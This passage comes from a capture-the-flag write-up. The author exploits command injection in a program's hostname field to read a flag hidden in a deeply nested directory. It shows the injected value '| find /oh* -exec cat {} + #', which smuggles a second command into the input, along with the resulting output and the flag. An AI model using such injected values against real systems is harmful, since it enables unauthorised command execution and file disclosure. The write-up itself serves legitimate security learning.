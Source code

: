 Yeah... Again too much characters. Look at that "lol" folder which is totally laughing at us è_é. And this time if you noted the path, it's saying "oh no i hope this isnt too long is this messing you up lol".

The creator was literally SURE, that we will do this! Also, can you imagine the time consumed for nothing? One folder = one reboot! But i laughed a lot! That's funny!

Well. Time to be smarter!

#### Exploitation - Flag it!

At this moment, i asked myself "How can i list every folder which is inside `ohno`, and read every files in these (pretty sure there is only the flag at the end), at one go?".

So i used `find`, to list all the folder and the parameter `-exec` combined with `cat` to read all files inside these, and the magic happen!

Final Command used : `| find /oh* -exec cat {} + #`

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1
Enter new hostname (30 chars max): | find /oh* -exec cat {} + #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
cat: /ohno: Is a directory
cat: /ohno/i: Is a directory
cat: /ohno/i/hope: Is a directory
cat: /ohno/i/hope/this: Is a directory
cat: /ohno/i/hope/this/isnt: Is a directory
cat: /ohno/i/hope/this/isnt/too: Is a directory
cat: /ohno/i/hope/this/isnt/too/long: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so/much: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so/much/fun: Is a directory
byuctf{expl0iting_th1s_r3al_w0rld_w4s_s000_ann0ying}
Reboot complete
```
